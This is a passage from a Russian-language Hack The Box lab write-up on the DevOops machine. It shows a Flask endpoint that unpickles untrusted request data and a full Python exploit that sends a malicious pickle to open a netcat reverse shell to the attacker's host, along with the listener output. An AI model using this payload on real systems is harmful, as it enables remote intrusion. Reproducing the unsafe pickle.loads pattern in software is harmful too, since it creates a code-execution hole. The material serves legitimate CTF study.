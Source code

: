 Остановимся на устройстве ресурса `/newpost`, который не обнаружил gobuster:
```python
@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']
```

Невооруженным взглядом видна *pickle-deserialization*-уязвимость, о которой мы уже говорили, когда разбирали машину [Canape](/2018/09/28/htb-canape-write-up.html#анализ-кода).

Поэтому, не вдаваясь в долгие рассуждения (и пропустив Proof-of-Concept, ибо лень), соберем скрипт, который подарит нам реверс-шелл:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# Usage: python devoops_shell.py

import cPickle, requests, base64

LHOST = '10.10.14.14'
LPORT = '31337'
RHOST = '10.10.10.91'
RPORT = '5000'


class Payload(object):
	def __init__(self, cmd):
		self.cmd = cmd
	def __reduce__(self):
		import os
		return (os.system, (self.cmd,))


reverse_sh = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s >/tmp/f" % (LHOST, LPORT)
evilpickle = cPickle.dumps(Payload(reverse_sh))

r = requests.post('http://%s:%s/newpost' % (RHOST, RPORT), data=base64.urlsafe_b64encode(evilpickle))
print('POST {} {}'.format(r.status_code, r.url))
```

И мы снова внутри:
```text
root@kali:~# python devoops_shell.py

```

```text
root@kali:~# nc -nlvvp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.10.10.91.
Ncat: Connection from 10.10.10.91:55294.

/bin/sh: 0: can't access tty; job control turned off
$ whoami
roosa

$ id
uid=1002(roosa) gid=1002(roosa) groups=1002(roosa),4(adm),27(sudo)
```